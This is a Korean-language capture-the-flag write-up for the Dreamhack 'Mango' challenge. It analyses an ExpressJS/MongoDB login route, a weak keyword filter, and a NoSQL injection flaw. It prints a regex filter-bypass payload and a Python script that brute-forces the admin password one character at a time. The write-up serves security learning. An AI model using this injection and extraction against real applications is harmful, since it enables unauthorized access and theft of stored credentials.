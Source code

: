 # Mango

### Overview

[Link (Mango)](https://dreamhack.io/wargame/challenges/90)

**Environment**
```
Language: Javascript
Framework: ExpressJS
Database: MongoDB
```


1. Code Analysis<a href="#1-code-analysis"><sup>[1]</sup></a>
    - main.js
        - Hint
        - `BAN`
        - `filter`
        - `/login`
        - `/`

2. Vulnerability<a href="#2-vunerability"><sup>[2]</sup></a>

    - NoSQL Injection

3. Scenario<a href="#3-scenario"><sup>[3]</sup></a>

4. Payload<a href="#4-payload"><sup>[4]</sup></a>

5. Exploit<a href="#5-exploit"><sup>[5]</sup></a>

6. Conclusion<a href="#5-conclusion"><sup>[6]</sup></a>

---

### 1. Code Analysis

- main.js

    - Hint
    ```
    // flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
    ```
    `Flag`의 위치를 알려주고 있으며, `upw`의 형태 및 조건을 알려주고 있다.

    <br/>

    - `BAN`
    ```js
    const BAN = ['admin', 'dh', 'admi'];
    ```
    이후 `filter`에 사용될 문자열들로, 개인적으로 이 부분에서도 약간의 힌트가 있었다고 생각하였다.  
    `admin`뿐만 아니라 `admi`까지 따로 제시된 것을 보고 정규표현식을 떠올렸다.

    </br>
    
    - `filter`
    ```js
    filter = function(data){
        const dump = JSON.stringify(data).toLowerCase();
        var flag = false;
        BAN.forEach(function(word){
            if(dump.indexOf(word)!=-1) flag = true;
        });
        return flag;
    }
    ```
    파라미터로 전달받은 `data`를 소문자로 변환하고, `BAN` 배열을 확인하여 해당하는 문자열이 있다면 `true`를, 아니라면 `false`를 반환한다.

    <br/>

    - `/login`
    ```js
    app.get('/login', function(req, res) {
        if(filter(req.query)){
            res.send('filter');
            return;
        }
        const {uid, upw} = req.query;

        db.collection('user').findOne({
            'uid': uid,
            'upw': upw,
        }, function(err, result){
            if (err){
                res.send('err');
            }else if(result){
                res.send(result['uid']);
            }else{
                res.send('undefined');
            }
        })
    });
    ```
    `req`로 받은 파라미터를 `filter` 함수를 적용하여 `true`일 경우 화면에 `filter`를 출력하고 동작을 마친다.  
    그렇지 않은 경우 `uid`와 `upw`에 받은 파라미터값을 입력한다.  
    이후 Database `user`에서 변수 `uid`와 `upw`가 DB 내 `uid`, `upw`에 해당하는 값을 하나 찾는다.  
    오류 발생 시 `err`를 출력하고, 결과값이 나온 경우 해당 값의 `uid`를 출력한다.  
    이외의 경우 `undefined`를 출력하여 동작을 종료한다.
    
    </br>
    
    - `/`
    ```js
    app.get('/', function(req, res) {
        res.send('/login?uid=guest&upw=guest');
    });
    ```
    `/login?uid=guest&upw=guest`를 출력한다.  
    `login`페이지의 존재 여부와 해당 페이지로 전달되는 파라미터를 알려주는 페이지이다.  
    해당 값을 URL에 입력하면 쿼리 결과값의 `uid` 부분인 `guest`가 출력된다.

---

### 2. Vunerability
- NoSQL Injection: 동적 쿼리를 생성하며, 쿼리에 대한 검증이 따로 없다. 필터가 존재하나 약한 필터라 평가된다.

---

### 3. Scenario

1. 가용한 정보는 `flag`의 위치, 해당하는 `uid` 문자열과 `upw`의 형태 및 조건, `filter`에 의해 걸러지는 문자열이 있다.

2. 확인된 취약점은 `NoSQL Injection`이다.

3. 공격자 입장에서는 쿼리에 알맞은 질의가 이루어졌는지 확인하는 것만 가능하다.

4. 정규표현식을 이용해 `admin`과 관련한 Payload를 전달하여 `admin`이 출력되는지 확인한다.

5. 이후 Blind SQL Injection처럼 쿼리 반환값을 이용, Brute Force Attack을 수행하여 `Flag`인 `upw`를 알아낸다.

---

### 4. Payload

```
/login?uid[$regex]=ad.in&upw[$regex]=D*
```
`uid`와 `upw` 파라미터를 MongoDB에서 사용되는 정규표현식으로 전달한다.  
전달한 값으로 `uid`는 `admin`의 `m` 자리에 임의의 문자 한개가 포함되는 값, `upw`는 `DH{*}`에서 `D` 이후 임의의 문자열이 추가된 값이다.  
해당 값을 입력하면 `admin`이 출력된다.

---

### 5. Exploit

1. exploit.py
```python
import requests
import string

HOST = input("Host: ")
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''
for i in range(32):
    for ch in ALPHANUMERIC:
        response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
        if response.text == SUCCESS:
            flag += ch
            break
    print(f'FLAG: DH{{{flag}}}')
```
`HOST`에 호스트 주소를 입력받는다.  
`upw`에 포함될 수 있는 문자를 `ALPHANUMERIC`에 저장한다.  
익스플로잇에 성공하면 `admin`이 출력되기에 `SUCCESS`에 해당 문자열을 저장한다.  
`flag`를 문자열로 정의하고, 이후 Brute Force Attack에 의해 생성되는 문자열을 저장한다.  
`Flag` 문자열이 32자임을 알고 있으므로 32번의 문자 대조를 실시한다.  
`ALPHANUMERIC`의 문자를 하나씩 `upw` 파라미터에 넣어 정규표현식에 맞는 질의인지 확인하고 `flag`에 문자를 추가해준다.  
동작이 모두 완료되면 `FLAG`값을 알 수 있다.

2. index
![index](/Wargame/Mango/img/index.png)

3. login - guest
![login - guest](/Wargame/Mango/img/login%20-%20guest.png)

4. login - admin(Regular Expression)
![login - admin](/Wargame/Mango/img/login%20-%20admin.png)

5. Execute exploit.py
![exploit](/Wargame/Mango/img/exploit.png)

---

### 6. Conclusion
Dreamhack에서 제공하는 Blind SQL Injection Exploit Code를 접하기 전, 문제에 관해 찾아보고 작성한 코드라 효율성이 상당히 떨어진다.  
ASCII Code로 변환 후 Binary Search를 이용하여 Refactoring이 가능하다.  
시간 복잡도: $O(N)$ -> $O(logN)$  
exploit.py의 시간복잡도는  
(`ALPHANUMERIC`의 개수) x (`upw`의 길이) = $62 * 32 = 1984$  
Refactoring을 거치면  
(log(`ALPHANUMERIC`의 개수)) x (`upw`의 길이) $\approx 6 * 32 = 192$  
시간복잡도가 10배 이상 줄어든 것을 확인 할 수 있다.

---

[_Go to top_ ↑](#mango)